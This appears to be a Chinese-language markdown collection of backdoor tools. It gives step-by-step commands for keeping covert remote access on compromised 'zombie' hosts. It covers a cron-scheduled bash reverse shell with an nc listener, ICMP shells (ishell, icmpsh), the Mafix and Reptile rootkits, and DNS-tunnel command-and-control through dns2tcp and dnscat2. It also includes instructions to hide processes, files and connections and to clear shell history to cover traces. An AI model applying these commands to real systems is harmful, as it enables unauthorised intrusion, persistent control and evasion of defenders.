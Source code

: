 # backdoor工具收藏

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html<br>
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
参考https://blog.csdn.net/gsls200808/article/details/50318947<br>
https://www.freebuf.com/articles/network/208242.html<br>
https://www.cnblogs.com/bonelee/p/7927706.html<br>
*******************************************************************<br>
7、a 安装<br>
服务端 <br>
debian9安装ruby环境: apt-get install ruby-full <br>
git clone https://github.com/iagox86/dnscat2.git <br>
cd dnscat2 <br>
cd server <br>
gem install bundler <br>
bundle install <br>
客户端 <br>
git clone https://github.com/iagox86/dnscat2.git <br>
cd dnscat2/client/<br> 
make<br><br>

b 使用 <br>
在服务端机器上，执行： <br>
root@kali:/opt/dnscat2/server# <br>
ruby dnscat2.rb //可以不带任何参数执行 <br>
ruby dnscat2.rb –dns “domain=dns.hxsec.com,host=192.168.1.28,port=5353” –no-cache <br>
在客户端机器上，执行： <br>
[root@centos7vm client]# <br>
./dnscat –dns server=192.168.1.28,port=5353 –secret=7296f13b2295b56a9e451ac3c418c96f<br><br>

c 进一步操作 <br>
可以用”sessions”命令来查看已经创建的会话 <br>
进入建立的session并与其交互：<br> 
dnscat2> session -i 1<br>

输入”shell”命令即可，它就会开启一个新的窗口，进入到目标系统的shell中 <br>
command (centos7vm) 1> shell<br>

与新的终端中打开的shell会话中进行交互，输入下面这两条命令： <br>
command (centos7vm) 1> windows <br>
command (centos7vm) 1> session -i 2 <br>
sh (centos7vm) 2> uname -a <br>
sh (centos7vm) 2> Linux centos7vm<br>

建立DNS隧道转发 <br>
dnscat2> session -i 1 <br>
command (centos7vm) 1> listen 127.0.0.1:1188 192.168.1.28:10022<br>

Usage: listen [:] : //kali地址及端口 肉鸡IP及端口<br>

Kali上用SSH登录肉鸡，在Kali上连接本地1188，将转发至肉鸡10022端口 <br>
root@kali:~#ssh root@127.0.0.1 -p 1188 <br>
参考：https://blog.csdn.net/localhost01/article/details/86591685 <br>
https://blog.csdn.net/ddr12231/article/details/102306989 <br>
https://blog.csdn.net/weixin_30389003/article/details/94863001 <br>
https://www.4hou.com/tools/17226.html
